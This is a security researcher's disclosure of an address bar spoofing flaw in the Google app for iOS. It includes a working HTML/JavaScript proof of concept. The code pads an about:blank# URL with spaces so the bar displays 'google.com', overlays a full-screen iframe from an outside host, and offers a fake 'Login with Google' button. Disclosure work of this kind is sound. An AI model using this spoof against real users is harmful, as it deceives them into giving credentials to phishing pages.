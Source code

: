 # Title: Google App iOS Full Address Bar Spoof

## Description: 
Using the Google app for iOS when navigating to a site from the search or entering the URL manually the address bar only shows the origin of it, this is normally when the scheme is http/https but if we open a new tab with location of about:blank the address bar now doesn't have an origin it will display the full URL, and the issue is also arises that if the URL is too long the UI will show the end of it, for example opening about:blank#(multiple _spaces) google.com the address bar display (multiple _spaces) google.com and hides the about:blank# part making the address bar spoofed and a user thinks it's on google.com

POC
When creating a POC I encountered a problem which when opening a URL with about:blank#test the app immediately closed the tab and got an error but I found a solution to this problem by creating an about:blank page then from there creating a second about:blank#test which didn't get any errors, also the app doesn't have popup blocking protection making the attack without any user interaction.

Online POC open in Google app iOS: https://REDACTED

Video POC: Bug-001.mp4

POC Code

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script>

var v='';
        function poc() {
// Opening first about:blank page
v=window.open('about:blank');

// Wait a little and open a second about:blank page with a hash fragment
setTimeout(()=>{
v.document.body.innerHTML=`
<img src=x onerror='var c=window.open("about:blank#.         google.com      \u2b1e");
c.document.body.innerHTML=&#x27;<iframe src="https://pwr.wtf/arc/5.html" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;"></iframe>&#x27;'>
`
},10);
        }
poc();
    </script>
</head>
<body>
        <h1>
        <center><br><br><br><button style=font-size:30px onclick=poc()>Login with Google</button></center>
        </h1>
</body>
</html>
```
Mitigation
When the URL is about:blank show an empty address bar or show the start of URL not end of it

Attack scenario
An attacker with this vulnerability can deceive users into thinking they are on a legitimate site and enter their credentials. As a browser vulnerability, address bar spoofing allows attackers to manipulate the URL displayed in a browser's address bar, making a fraudulent site appear legitimate. This can lead users to unknowingly share sensitive information, download malicious software, or conduct financial transactions on compromised sites, posing a serious security risk and undermining user trust in the browser’s ability to verify site authenticity.

## Author: Renwa

## Affected Browser(s): Google iOS

## Severity: High

## Spoof Type: non-http scheme

## References: N/A

## POC Photo/Video: `bug-001.mp4`

## Discovery Date: 2024-10-31

